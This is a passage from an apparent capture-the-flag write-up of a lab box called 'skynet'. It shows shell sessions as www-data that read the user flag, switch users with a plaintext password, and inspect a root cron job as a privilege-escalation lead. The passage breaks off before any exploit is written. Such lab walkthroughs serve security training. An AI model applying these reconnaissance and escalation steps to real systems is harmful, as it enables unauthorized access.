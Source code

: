 ```
www-data@skynet:/$ ls
bin   home            lib64       opt   sbin  tmp      vmlinuz.old
boot  initrd.img      lost+found  proc  snap  usr
dev   initrd.img.old  media       root  srv   var
etc   lib             mnt         run   sys   vmlinuz
www-data@skynet:/$ cd home
www-data@skynet:/home$ ls
milesdyson
www-data@skynet:/home$ cd milesdyson
www-data@skynet:/home/milesdyson$ ls
backups  mail  share  user.txt
www-data@skynet:/home/milesdyson$ cat user.txt
xxxe5c2109a40f95809xxxxxxx
www-data@skynet:/home/milesdyson$ 
```



## Escalation
We are currently running under the www-data account.

Using the password we found earlier I can change to the milesdyson account but that doesn't help us right now. 

```
www-data@skynet:/home/milesdyson$ su milesdyson
Password: cyborg007haloterminator  

milesdyson@skynet:
```


I checked to see if there were any cron jobs running and found one called backup.sh that ran every minute

```
www-data@skynet:/home/milesdyson$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
www-data@skynet:/home/milesdyson$ 
```
